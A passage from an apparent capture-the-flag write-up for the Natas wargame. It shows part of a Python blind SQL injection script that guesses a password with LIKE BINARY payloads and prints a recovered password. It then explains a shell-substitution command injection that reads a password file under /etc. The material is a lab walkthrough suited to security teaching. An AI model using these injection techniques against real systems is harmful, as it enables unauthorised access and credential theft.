 ```python
        except IndexError:
            # None of the chars matched, assume that the password has been
            # guessed.
            return password
        password_guess = "".join([password, char, "%"])
        text = get_page_text({
            "username":
                'natas16" AND password LIKE BINARY "{0}'.format(password_guess),
            "debug": "true"
        })
        if does_user_exist(text):
            password = "".join([password, char])
            logging.info("password: %s", password)
            index = 0


def main():
    print get_password()


if __name__ == "__main__":
    main()
```

Running the script prints out the password.

`WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`

## 17

This level is similar to the previous one. The web app is the same as the one
from levels [10](#10) and [11](#11), but it returns an error if any of the
characters `;`, `|`, `&`, `` ` ``, `\`, `'`, and `"`.
are used. We can, however, make use of shell varible expansions:

```sh
grep -i "$(grep -E ^a.* /etc/natas_webpass/natas17)aprils" dictionary.txt
```

If the password doesn't start with the letter 'a', the grep inside the
variable expansion returns nothing, and the outer grep searches for 'aprils',
which it finds in dictionary.txt. If however, the password does start with 'a',
the grep will return the password, and the outer grep will search for
`axxxaprils` (where `xxx` represents the rest of the characters in the password)
, which it won't find, so will return nothing. We can repeat
this process for all letters as before.

The code to do this is very similar to the code from level [16](#16):

```python
# -*- coding: utf-8 -*-

import logging
import string
import sys

import requests
from bs4 import BeautifulSoup


logging.basicConfig(level=logging.DEBUG, stream=sys.stderr)
logger = logging.getLogger(__name__)
# Silence noisy urllib3 debug logs
logging.getLogger("urllib3").setLevel(logging.CRITICAL)


```

[^1]: Hacking into systems without explicit permission is illegal.